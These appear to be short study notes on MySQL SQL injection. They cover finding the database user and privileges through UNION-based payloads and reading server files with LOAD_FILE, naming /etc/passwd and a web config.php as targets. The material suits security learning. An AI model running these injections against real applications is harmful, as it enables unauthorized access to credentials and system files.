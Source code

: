 most likely only if we are database admin

find current user
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
do it with a union injection

finding user privilege
```
SELECT super_priv FROM mysql.user
```
in an union injection
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
see all privileges;
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
if FILE is listed in here, we can read files and write files

loading file command
```sql
SELECT LOAD_FILE('/etc/passwd');
```
other interesting files to open:
/var/www/html/config.php

note: if it renders html, just inspect to see the html source (CTRL + U)

